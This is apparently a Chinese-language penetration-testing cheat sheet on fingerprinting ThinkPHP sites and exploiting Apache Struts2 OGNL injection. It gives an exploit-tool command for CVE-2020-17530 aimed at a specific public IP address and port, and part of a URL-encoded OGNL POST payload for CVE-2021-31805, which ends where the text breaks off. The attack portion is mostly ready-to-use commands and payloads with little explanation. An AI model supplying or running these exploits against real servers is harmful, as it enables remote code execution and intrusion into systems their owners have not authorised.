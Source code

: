3、简单识别

1. **查看默认目录结构**

ThinkPHP的默认目录结构具有明显特征，例如：
```
/application
/runtime
/thinkphp
/public
/config.php
/route.php
```

2. **检查默认文件和标识**

- 访问 `http://target.com/public/index.php` 或 `http://target.com/index.php`，如果是 ThinkPHP，可能会返回默认错误信息或框架版本信息。
- `http://target.com/think` 目录可能会暴露一些默认内容。
- 404 页面可能会暴露 **ThinkPHP** 关键字

 4. **查看 URL 访问特征**

ThinkPHP 默认的 URL 规则通常是：
```
http://target.com/index.php/module/controller/action
```
例如
```
http://target.com/index.php/index/index/index
如果访问这些路径后，返回 **ThinkPHP** 相关错误或页面，说明可能使用了 ThinkPHP。
```

# 二、J2EE-java

## 1、Struct2

Apache Struts2框架是一个使用JavaEE网络应用程序的Web框架。

可能存在OGNL表达注入扩展，从而造成远程代码执行，风险极大。

1、struts2 代码执行 （CVE-2020-17530）

Apache Struts 2.0.0 - 2.5.25

https://github.com/YanMu2020/s2-062

```
python .\s2-062.py --url http://47.98.193.176:18588/ --cmd id
```

2、Struts2 代码执行 （CVE-2021-31805）

Apache Struts 2.0.0 - 2.5.29
```
Post： /s2_062/index.action

name=(%23request.map%3d%23%40org.apache.commons.collections.BeanMap%40{}).toString().substring(0,0)+%2b

(%23request.map.setBean(%23request.get('struts.valueStack'))+%3d%3d+true).toString().substring(0,0)+%2b

(%23request.map2%3d%23%40org.apache.commons.collections.BeanMap%40{}).toString().substring(0,0)+%2b

(%23request.map2.setBean(%23request.get('map').get('context'))+%3d%3d+true).toString().substring(0,0)+%2b

(%23request.map3%3d%23%40org.apache.commons.collections.BeanMap%40{}).toString().substring(0,0)+%2b

```